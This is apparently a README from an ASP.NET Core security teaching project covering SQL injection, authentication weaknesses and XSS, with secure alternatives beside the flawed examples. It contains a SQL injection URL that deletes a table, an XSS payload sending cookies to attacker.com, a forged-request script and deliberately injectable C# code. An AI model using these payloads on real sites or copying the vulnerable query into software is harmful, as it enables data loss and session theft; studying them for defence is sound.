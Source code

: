 # Typical web app security vulnerabilities
* [Injection](#injection)
* [Broken Authentication and Session Management](#broken-authentication-and-session-management)
* [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
* [Broken Access Control](#broken-access-control)
* [Security Misconfiguration](#security-misconfiguration)
* [Sensitive Data Exposure](#sensitive-data-exposure)
* [Cross-Site Request Forgery (CSRF)](#cross-site-request-forger-csrf)

## Injection
Injection flaws are very prevalent, particularly in legacy code. Injection vulnerabilities are often found in SQL, LDAP, XPath, or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages, and ORM queries.
Injection flaws are easy to discover when examining code. Scanners and fuzzers can help attackers find injection flaws.
Injection can result in data loss, corruption, or disclosure to unauthorized parties, loss of accountability, or denial of access. Injection can sometimes lead to complete host takeover.

### Protection
* use entity framework Linq Queries
* don't set params directly into SQL string

### Sql Injection sample
Scenario #1: An application uses untrusted data in the construction of the following vulnerable SQL call:

```var sql = "SELECT * FROM product WHERE sku='{sku}' LIMIT 1";```

Scenario #2: Similarly, an application’s blind trust in frameworks may result in queries that are still vulnerable, 
(e.g. EF Core FromSql Method):

```
SecurityWeakness.Infrastructure.SQL.NotSecureProductSqlRepository:

public Product GetSingleBySku(string sku)
{
    var sql = $"SELECT * FROM product WHERE sku='{sku}' LIMIT 1";
    return context.Products.FromSql(sql).ToArray().Single();
}
```

In both cases, the attacker modifies the ‘sku’ parameter value in their browser to send:

``` 
http://localhost:62384/NotSecureProducts/Product?sku=p2';DELETE from product;SELECT '1
```

This changes the meaning of both queries to delete all the records from the product table. More dangerous attacks could modify or delete data, or even invoke stored procedures.

### Secure sample
Rewrite code using Linq Query, or use parameterization for raw SQL queries 
```
SecurityWeakness.Infrastructure.SQL.SecureProductSqlRepository:
public Product GetSingleBySku(string sku)
{
    return context.Products.FromSql($"SELECT * FROM {TableName} WHERE sku={{0}} LIMIT 1", sku).ToArray().Single();
}
```

## Broken Authentication and Session Management
These types of weaknesses can allow an attacker to either capture or bypass the authentication methods that are used by a web application.

* User authentication credentials are not protected when stored.
* Predictable login credentials.
* Session IDs are exposed in the URL (e.g., URL rewriting).
* Session IDs are vulnerable to session fixation attacks.
* Session value does not timeout or does not get invalidated after logout.
* Session IDs are not rotated after successful login.
* Passwords, session IDs, and other credentials are sent over unencrypted connections.
The goal of an attack is to take over one or more accounts and for the attacker to get the same privileges as the attacked user.

### Protection
* Credentials should be protected: User authentication credentials should be protected when stored using hashing or encryption.
* Do not expose session ID in the URL: Session IDs should not be exposed in the URL (e.g., URL rewriting).
* Session IDs should timeout: User sessions or authentication tokens should be properly invalidated during logout.
* Recreate session IDs: Session IDs should be recreated after successful login.
* Do not send credentials over unencrypted connections: Passwords, session IDs, and other credentials should not be sent over unencrypted connections.
* Password length: Minimum password length should be at least eight (8) characters long. Combining this length with complexity makes a password difficult to guess using a brute force attack.
* Password complexity: Passwords should be a combination of alphanumeric characters. Alphanumeric characters consist of letters, numbers, punctuation marks, mathematical and other conventional symbols.
* Username/Password Enumeration: Authentication failure responses should not indicate which part of the authentication data was incorrect. For example, instead of "Invalid username" or "Invalid password", just use "Invalid username and/or password" for both. Error responses must be truly identical in both display and source code.
* Protection against brute force login: Enforce account disabling after an established number of invalid login attempts (e.g., five attempts is common). The account must be disabled for a period of time sufficient to discourage brute force guessing of credentials, but not so long as to allow for a denial-of-service attack to be performed.

## Cross-Site Scripting (XSS)
Cross Site Scripting (XSS) is a widespread vulnerability that affects many web applications. XSS attacks consist of injecting malicious client-side scripts into a website and using the website as a propagation method.
XSS is the most prevalent web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. There are two different types of XSS flaws: 1) Stored and 2) Reflected, and each of these can occur on the a) Server or b) on the Client.

Detection of most Server XSS flaws is fairly easy via testing or code analysis. Client XSS is very difficult to identify.

Attackers can execute scripts in a victim’s browser to hijack user sessions, deface web sites, insert hostile content, redirect users, hijack the user’s browser using malware, etc.

### Protection
* protect web inputs with HTML sanitizers
* remove un secure htmltags (style,script etc) before save in database
* protect cookies with Secure and Http only attributes in http header

### Xss Attack sample
* Hijack a user’s session
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";```

The attacker modifies the 'CC' parameter in their browser to:

```'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.```

* **asp.net core** protect it cookie from this kind of vulnerability, to enable cookie for document.cookie you need set ``` options.Cookie.HttpOnly=false```
```
    services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.HttpOnly = true;
    });
```

This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See A8 for info on CSRF.

* Perform unauthorized activities
If the HTTP Only cookie attribute is set, we cannot steal the cookies through JavaScript. However, using the XSS attack, we can still perform unauthorized actions inside the application on behalf of the user.
```
  <script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:62384/NotSecureProducts/DeleteComment',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('sku=p1&productid=1&commentid=1');
</script>
```

* Phishing to steal user credentials
XSS can also be used to inject a form into the vulnerable page and use this form to collect user credentials. This type of attack is called phishing.

* Capture the key strokes by injecting a keylogger
In this attack scenario we will inject a JavaScript keylogger into the vulnerable web page and we will capture all the key strokes of the user within the current page.

First of all, we will create a separate JavaScript file and we will host it on the attacker controlled server. We need this file because the payload is too big to be inserted in the URL and we avoid encoding and escaping errors

## Broken Access Control
## Security Misconfiguration
## Sensitive Data Exposure
## Cross-Site Request Forgery (CSRF)
## Using Components with Known Vulnerabilities
Known vulnerabilities are vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers. 
From the moment of publication , a vulnerability can be exploited by hackers who find the documentation. According to OWASP, the problem of using components with known vulnerabilities is highly prevalent

## Resources
* [OWASP .NET](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/DotNet_Security_Cheat_Sheet.md)
* [ASP.NET Core Security](https://docs.microsoft.com/en-us/aspnet/core/security/?view=aspnetcore-2.2)
* [OWASP Top Ten 2017](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2017_Project)
* [Cross Site Scripting (XSS)](https://blog.sucuri.net/2019/01/owasp-top-10-security-risks-part-iv.html)
* [Cross Site Scripting (XSS) Asp net core](https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-2.2)
* [xss-attacks-practical-scenarios](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [HTTP only, Secure cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
* [broken-authentication-and-session-management](https://hdivsecurity.com/owasp-broken-authentication-and-session-management)

